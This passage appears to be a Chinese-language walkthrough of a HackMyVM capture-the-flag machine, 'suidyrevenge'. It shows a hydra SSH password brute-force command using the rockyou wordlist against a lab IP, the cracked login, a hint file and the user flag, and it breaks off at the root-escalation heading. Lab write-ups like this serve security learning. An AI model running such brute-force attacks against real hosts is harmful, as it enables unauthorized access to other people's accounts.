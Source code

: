 ```Bash
hydra -l murda  -P  /usr/share/wordlists/rockyou.txt 192.168.56.9 ssh -vV

[22][ssh] host: 192.168.56.9   login: murda   password: iloveyou
```
利用ssh工具连接上去

## 5. 提权theuser

进来有个提示

```Bash
murda@suidyrevenge:~$ cat secret.txt
I know that theuser is here!
I just got the id\_rsa from "violent".
I will put the key in a secure place for theuser!
I hope he find it.
Remember that rockyou.txt is your friend!
```


```Bash
我知道theuser在这里！
我刚刚从“violent”那里拿到了id\_rsa。
我会把这个密钥放在一个安全的地方，供theuser使用！
希望他能找到它。
记住，rockyou.txt是你的朋友！
```
意思是murda 获取到了violent的私钥，放到了安全的地方给theuser使用

那肯定是要我们爆破theuser用户 获取私钥啊

爆了半天没出。利用首页给的提示用different成功登录

```Bash
theuser@suidyrevenge:~$ cat user.txt

                                   .     \*\*
                                \*           \*.
                                              ,\*
                                                 \*,
                         ,                         ,\*
                      .,                              \*,
                    /                                    \*
                 ,\*                                        \*,
               /.                                            .\*.
             \*                                                  \*\*
             ,\*                                               ,\*
                \*\*                                          \*.
                   \*\*                                    \*\*.
                     ,\*                                \*\*
                        \*,                          ,\*
                           \*                      \*\*
                             \*,                .\*
                                \*.           \*\*
                                  \*\*      ,\*,
                                     \*\* \*,



HMVbisoususeryay
```
## 6. 提权root
